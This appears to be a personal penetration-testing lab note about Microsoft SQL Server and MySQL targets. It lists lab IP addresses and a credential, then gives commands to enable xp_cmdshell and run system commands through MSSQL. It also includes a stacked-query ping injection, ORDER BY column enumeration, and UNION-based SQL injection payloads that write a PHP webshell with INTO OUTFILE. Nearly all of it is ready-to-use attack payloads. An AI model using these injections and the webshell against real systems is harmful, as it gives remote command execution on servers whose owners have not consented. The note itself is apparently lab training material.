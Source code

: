 ```yaml
---
IP_KALI: 192.168.45.228
USER: Administrator
PASSWD: Lab
IP_TARGET: 192.168.194.18
---
```

In order to execute windows commands via SQL you must first enable the webshell using the folling commands:


On SQL:
```
EXECUTE sp_configure 'show advanced options', 1;
```

```
RECONFIGURE;
```

```
EXECUTE sp_configure 'xp_cmdshell', 1;
```

```
RECONFIGURE;
```
- Execute commands:
```
EXECUTE xp_cmdshell 'whoami';
```

Test for connectivity to ATK machien:
```
sudo tcpdump -i tun0 icmp
```
- ~={green}';EXEC xp_cmdshell "ping <span id="IP_KALI"/>192.168.45.228<span type="end"/>"--=~

SQL payload for webshell:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```


Determine columns:
```
' ORDER BY 1-- //
```
2. Connect to the MySQL VM 2 and repeat the steps illustrated in this section to manually exploit the UNION-based SQLi. Once you have obtained a webshell, gather the flag that is located in the same **tmp** folder.

**HINT**

1. Determine the number of columns by using the ORDER BY clause. 4 columns
2. Once you have determined the number of columns, use the UNION SELECT for simple code execution such as @@version. 
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

1. Use the INTO OUTFILE to write a webshell to /var/www/html/tmp/.